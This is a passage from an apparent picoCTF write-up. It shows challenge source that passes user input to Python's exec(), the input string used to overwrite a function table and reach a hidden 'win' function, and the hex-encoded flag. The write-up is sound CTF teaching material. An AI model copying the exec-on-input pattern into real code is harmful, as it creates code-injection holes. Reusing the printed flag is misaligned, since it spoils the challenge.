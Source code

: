 ``` python
# Allows the user to create new variables, note that it doesn't check if the variable already exists!  You can probably see where this is going now.
def write_variable():
  # Accepts the user's input without validating it.
  var_name = input('Please enter variable name to write: ')
  # Checks to make sure the string entered is a valid python variable name.
  if( filter_var_name(var_name) ):
    value = input('Please enter new value of variable: ')
    # Sets up the variable for the user with the requested value.
    if( filter_value(value) ):
      exec('global '+var_name+'; '+var_name+' = '+value)
    else:
      print('Illegal value')
  else:
    print('Illegal variable name')
```

So, what we need to do is update the func_table variable to allow us to point to the win function, I did a bit of troubleshooting but eventually was able to get it done using the below string:

```
'print_table                     read_variable                   write_variable                  win                             '
```

Once we do that, we can print the table and see our win function appears:

``` bash
==> 1
1: print_table
2: read_variable
3: write_variable
4: win
```

And if we call 4:

``` bash
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d
```

Well we get a bunch of hex, but if we decode that with cyberchef:

![Flag](https://github.com/user-attachments/assets/df79b403-2935-476d-bf45-dc7eb15268ff)

We get our flag!
